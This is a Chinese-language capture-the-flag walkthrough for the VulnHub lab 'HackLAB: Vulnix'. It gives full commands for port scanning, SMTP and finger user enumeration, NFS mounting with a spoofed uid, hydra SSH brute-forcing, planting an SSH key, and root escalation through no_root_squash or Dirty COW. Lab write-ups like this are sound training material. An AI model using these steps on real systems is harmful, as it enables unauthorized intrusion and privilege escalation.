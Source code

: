 # HackLAB: Vulnix

2024-4-20 https://www.vulnhub.com/entry/hacklab-vulnix,48/

difficulty: Low

## IP

192.168.10.170

## Scan

Open Port -> 22,25,79,110,111,143,512,513,514,993,995,2049,35402,41639,50355,56639,57172

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 10cd9ea0e4e030243ebd675f754a33bf (DSA)
|   2048 bcf924072fcb76800d27a648520a243a (RSA)
|_  256 4dbb4ac118e8dad1826f58529cee345f (ECDSA)
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
79/tcp    open  finger   Linux fingerd
|_finger: No one logged on.\x0D
110/tcp   open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2024-04-20T09:35:59+00:00; +7h59m59s from scanner time.
|_pop3-capabilities: TOP RESP-CODES STLS SASL CAPA UIDL PIPELINING
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37429/tcp6  mountd
|   100005  1,2,3      39101/udp6  mountd
|   100005  1,2,3      41415/tcp   mountd
|   100005  1,2,3      49944/udp   mountd
|   100021  1,3,4      44178/udp   nlockmgr
|   100021  1,3,4      52156/udp6  nlockmgr
|   100021  1,3,4      54307/tcp   nlockmgr
|   100021  1,3,4      60150/tcp6  nlockmgr
|   100024  1          33639/tcp6  status
|   100024  1          50864/udp   status
|   100024  1          52110/tcp   status
|   100024  1          52865/udp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp   open  imap     Dovecot imapd
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2024-04-20T09:35:59+00:00; +7h59m59s from scanner time.
|_imap-capabilities: more SASL-IR listed OK have capabilities STARTTLS Pre-login post-login LITERAL+ IDLE LOGIN-REFERRALS ENABLE IMAP4rev1 LOGINDISABLEDA0001 ID
512/tcp   open  exec     netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  shell    Netkit rshd
993/tcp   open  ssl/imap Dovecot imapd
|_ssl-date: 2024-04-20T09:35:39+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_imap-capabilities: ID more OK have capabilities listed Pre-login post-login SASL-IR IDLE LITERAL+ ENABLE LOGIN-REFERRALS IMAP4rev1 AUTH=PLAINA0001
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: TOP RESP-CODES USER SASL(PLAIN) CAPA UIDL PIPELINING
|_ssl-date: 2024-04-20T09:35:39+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
2049/tcp  open  nfs_acl  2-3 (RPC #100227)
41415/tcp open  mountd   1-3 (RPC #100005)
43932/tcp open  mountd   1-3 (RPC #100005)
52110/tcp open  status   1 (RPC #100024)
54307/tcp open  nlockmgr 1-4 (RPC #100021)
59168/tcp open  mountd   1-3 (RPC #100005)
```

根据描述，这个靶场存在错误的配置，导致能够获得系统权限。

开启的端口比较多，有 smpt 、pop3、 imap、NFS 等服务。

对于邮件服务，我们手里没有可用的用户名和密码，只能尝试去枚举下可能存在的用户名：

```
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.10.170

或者使用 msf 中的 scanner/smtp/smtp_enum
```

得到了如下的非系统自带用户名：

```
user
```

再看看 NFS 2049 上有什么信息：

```
showmount -e 192.168.10.170
Export list for 192.168.10.170:
/home/vulnix *
```

看到有一个 /home/vulnix 目录，从这个上面我们能获得一个用户名：vulnix，让我们挂载到 kali 上看看里面有什么信息：

```
mkdir -p /tmp/mount
sudo mount -o rw,vers=3 192.168.10.170:/home/vulnix /tmp/mount
```

无法 cd 到 /tmp/mount ，ls -al /tmp/mount 发现所属用户的 ID 是 2008，需要我们在 kali 上床架一个 uid 为 2008 的账户才能进入此目录 sudo useradd -m -u 2008 vulnix，创建账户后，使用切换到该账户，然后进入 /tmp/mount 目录，让我们看看我们是否有写权限，尝试创建一个新的文件，发现有 w 权限。由于看不到目标主机的 NFS 的配置文件，可能这个目录上存在 no_root_squash 配置，导致我们能留下 suid 文件，为后续提升到 root 权限做准备。使用 root 用户创建一个文件，复制到此目录中时，发现文件的所属用户变成了 nobody，看样子 NFS 的配置中没有设置 no_root_squash ，这个利用暂时没什么用。

端口 79 对应的服务为 finger ，可以使用它获取到一些系统的用户信息，使用 msf 中提供的相关扫描模块：

```
use auxiliary/scanner/finger/finger_users
set rhsots 192.168.10.170
run
```

枚举出系统有如下用户列表：

```
backup, bin, daemon, dovecot, dovenull, games, gnats, irc, landscape, libuuid, list, lp, mail, man, messagebus, news, nobody, postfix, proxy, root, sshd, sync, sys, syslog, user, uucp, whoopsie, www-data
```

如果有可能话的话，有了用户列表，我们就能利用 ssh 进行密码爆破。

在尝试了其他端口后，没有发现有用信息，我们现在收集到的就是一堆用户名，那么只能尝试 ssh 进行爆破了，把 finger 中搜集的用户名进行过滤，去掉系统保留的用户名，留下：

```
user
```

使用 hydra 爆破 ssh 22 端口，只找到了 user 的密码：letmein

使用得到的用户凭证，ssh 登陆，直接使用 linpeas 进行系统枚举，找到提升到 root 的攻击面。

linpeas 中只发现了内核版本 3.2.0-29-generic-pae 可能存在漏洞，未发现其他攻击面。我们注意到前面的枚举中，/home 目录下有一个 vulnix 用户，这个用户上可能存在攻击面，我们是否能登陆到这个用户上？可以利用前面的 NFS 将生成的 ssh 公钥复制到它的目录中/tmp/mount/.ssh/authorized_keys，然后远程登陆。

远程登陆后，查看相关权限：

```
sudo -l
ser vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

我们可以使用 sudoedit /etc/exports 将 /home/vulnix \*(rw,root_squash) 中的 root_squash 改成 no_root_squash，这样我们就能在 kali 上以 root 身份，上传 suid 文件，并且进行执行。或者将/home/vulnix 的目录改成/root，我们就能够直接读取/root 目录的文件信息。

另外，也可以用 dircow 40839.c 进行提权到 root，将在 32 位环境下编译好的 exp 上传到目标机器，执行后可进行提权。
